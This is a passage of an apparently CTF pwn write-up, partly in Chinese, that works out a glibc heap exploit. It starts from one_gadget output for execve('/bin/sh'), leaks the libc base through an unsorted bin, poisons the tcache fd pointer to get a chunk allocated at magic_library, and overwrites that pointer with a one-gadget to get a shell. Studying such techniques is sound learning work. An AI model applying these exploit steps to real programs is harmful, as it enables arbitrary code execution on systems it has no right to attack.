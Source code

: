 ```
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, r12, NULL} is a valid argv

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL || {[rsp+0x40], [rsp+0x48], [rsp+0x50], [rsp+0x58], ...} is a valid argv

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv
```
现在的方向是 题目有给 magic_library
就是如果 enter index 17 会 `jmp [magic_library]`
so 我们的任务是 把magic_library 改成 one gadget

## 3.3 double free Attack flow ?

```
* = free status

1.leak base
-----------------------------------------------------------------------------
malloc 0x500 -> unsort bin 0
malloc 0x8 -> tcache 1
malloc 0x8 -> tcache 2
free 0 
show 0 -> calculate libc base

heap list        = [*0, 1, 2]
free list (0x20) = []
unsorted bin     = [0]
-----------------------------------------------------------------------------
2.double free -> target double free 1 == fl [0 1 2 1], out 0 1 2, modify 1 ??
free 1 -> [1 0]
free 2 -> [2 1 0]
如果这个时候再 free 1  就会 df detected in tcache .....

heap list        = [*0, *1, *2]
free list (0x20) = [1, 2] 不知道为什么 bins 记录的是parseheap + 0x10
unsorted bin     = [0] 可忽略
-----------------------------------------------------------------------------
神奇的事情 我发现edit 会enable 回 heap
更神奇的是 改 free 的chunk 会point 回自己 ？？？？？ 
edit 2 p64(exe.sym['magic_library']) -> overwrite fd of chunk 2

这个时候 *2 的 fd 是 magic_library

heap list        = [*0, 1, *2]
free list (0x20) = [2, (fd = magic_library)]
-----------------------------------------------------------------------------
malloc 0x8 -> 3 from 2 

heap list        = [*0, 1, 2]
free list (0x20) = [(fd = magic_library)]
-----------------------------------------------------------------------------
malloc 0x8 -> 4 from magic_library 
为什么没有动到 free list

heap list        = [*0, 1, 2]
free list (0x20) = []
-----------------------------------------------------------------------------
edit 4 one_gadget(libc.path, libc.address)
现在 magic_library = one_gadget
```